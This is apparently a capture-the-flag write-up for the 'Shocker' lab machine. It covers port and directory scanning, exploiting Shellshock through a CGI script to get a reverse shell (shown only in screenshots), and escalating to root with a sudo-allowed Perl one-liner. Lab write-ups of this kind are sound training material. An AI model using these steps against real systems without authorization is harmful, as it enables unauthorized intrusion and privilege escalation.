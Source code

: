 # Shocker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 12:22 EDT
Nmap scan report for 10.129.85.146
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-
```

Port 80 is open.

### Shellshock

When the webpage is visited, all we see is this:

<figure><img src="../../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

I did a `feroxbuster` script on the website.&#x20;

```
$ feroxbuster -u http://10.129.85.146 -f -n      

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.85.146
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        9l       13w      137c http://10.129.85.146/
403      GET       11l       32w      296c http://10.129.85.146/cgi-bin/
403      GET       11l       32w      294c http://10.129.85.146/icons/
403      GET       11l       32w      302c http://10.129.85.146/server-status/
```

I continued fuzzing and found a `user.sh` file. When downloaded, this is the response:

```http
HTTP/1.1 200 OK
Date: Wed, 03 May 2023 16:27:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 119

Content-Type: text/plain

Just an uptime test script

 12:27:22 up 40 min,  0 users,  load average: 0.58, 0.31, 0.11
```

The Content-Type was unique and I've never seen that before. A quick Google search on exploits regarding it led to Shellshock.&#x20;

{% embed url="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" %}

This software bugs allows us to have RCE on the website because of how environments variables are handled poorly in some websites. We can test it out by sending requests to the `user.sh` file and seeing if any bash commands get executed.&#x20;

<figure><img src="../../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>

So it does work. We can replace the `ping` command with a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Perl

When checking `sudo` permissions, we see this:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Based on GTFOBins, we just need to execute this to get a `root` shell.

{% code overflow="wrap" %}
```bash
sudo perl -e 'exec "/bin/bash";'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (449).png" alt=""><figcaption></figcaption></figure>

Rooted!
